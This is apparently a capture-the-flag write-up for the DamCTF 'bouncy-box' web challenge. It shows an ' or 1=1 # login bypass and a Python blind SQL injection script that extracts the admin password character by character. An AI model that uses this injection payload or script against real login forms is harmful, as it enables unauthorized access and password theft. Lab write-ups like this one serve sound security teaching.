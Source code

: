 ```yaml
---
layout: writeup
title: bouncy-box (web)
date: 2021-11-08
---
```

# Problem

We're given a URL to a website.  That's it, no source files here!

Let's see if we can hack it!

## Investigation
So the website is a weird jump-game which when we get a game-over prompts us to login to save our score.
 
Luckily, this prompt isn't sanitized so we can quickly SQL-inject our way past it with a class "`' or 1=1 #`".
 
![image of login prompt](/assets/writeup_imgs/bouncy-box0.png)
 
Past this prompt we see another user interface listing the players, their login privileges and a button saying "get flag"--which then prompts them to login again, except this prompt isn't susceptible to SQL injection!  From the high score we can determine the username of the website admin "boxy_mcbounce" but we can't figure out their password!
 
Luckily, since the first prompt is susceptible to SQL injection, we can utilize the LIKE operator and SQL wildcard character % to determine the admin's password. It takes a while (about a minute or two) but eventually we get the admin's password and can access the flag!

# Solution
```python
# Blind injection
import string
import requests

pwd = ''
url = 'https://bouncy-box.chals.damctf.xyz/login'

i = 0
# string.printable[66] is wildcard %--so stop before getting there.
while i < 66:
  payload = f"boxy_mcbounce' and password like '{pwd+string.printable[i]}%' #;"
  jsonData = {'username': payload, 'password': '', 'score': 0}
  r = requests.post(url, json=jsonData)
  if (r.status_code == 200):
    pwd += string.printable[i]
    print("password so far is ", pwd)
    print(payload)
    i = 0
  else:
    print(string.printable[i], "failed, status:", r.status_code)
    i += 1

print(pwd)
```

# Conclusion & Lessons Learned:
A system is only as strong as its weakest link--or something like that.  Remember to sanitize your sql inputs, store passwords as hashes, and don't reinvent the wheel if you can help it.